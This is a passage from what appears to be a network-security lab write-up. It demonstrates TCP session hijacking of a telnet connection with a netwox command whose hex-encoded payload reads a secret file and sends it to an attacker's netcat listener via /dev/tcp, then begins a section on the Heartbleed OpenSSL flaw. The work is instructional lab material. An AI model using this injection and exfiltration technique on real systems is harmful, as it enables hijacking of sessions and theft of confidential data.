 We will use again the `netwox` program and the tool number 40 which can be used to send any TCP package and we launch the attack by running this command

```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.12 -o 61775 -p 23 -H "0a636174202f686f6d652f757365722f746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d" -q 3321793573 -r 688874018 -z -A -E 2047
```

With the `-z` `-r` flags we set the acknowledgement number from the last packet sent by the server, and we can obtain this, again, from Wireshark. The `-E` flag sets the window size. We added new lines at the beginning and at the end of the command with the hex number _0a_ so we can make sure this attack works even if the client is in the middle of typing a command, and the _0d_ at the end because telnet commands end at the _\r_ character.

If we got the sequence and ack numbers correctly, after executing this command we will see that the `netcat` instance received the intended output

```bash
user@client:~$ nc -l -p 1940 -v
listening on [any] 1940 ...
10.2.1.12: inverse host lookup failed: Unknown host
connect to [10.2.1.13] from (UNKNOWN) [10.2.1.12] 34452
DONT READ THIS
CONFIDENTIAL FILE
```

Our attack worked!

But not only that. Because we injected a forged packet and the client has no idea about it, it will send a packet that contains an **old** sequence number that the server will ignore so it won't acknowledge it. The client then will keep resending the data and the connection will end up in a loop and the server will disconnect the client after a while. This is what we will see on Wireshark

![image](https://user-images.githubusercontent.com/7012176/73145000-8f8e1b00-40b3-11ea-9968-d1833b570f83.png)

   <div class="page"/>

# 7: Heartbleed

The Heartbleed bug is a severe implementation flaw in the OpenSSL library, which enables attackers to steal data from the
memory of the victim server. The contents of the stolen data depend on what is there in the memory of the server.

It could potentially contain private keys, TLS session keys, user names, passwords, credit cards, etc.
The vulnerability is in the implementation of the Heartbeat protocol,which is used by SSL/TLS to keep the connection alive.

## How Heartbleed works

To understand how the Heartbleed vulnerability works, you need to know a little bit about how the TLS/SSL protocols operate, and how computers store information in memory.
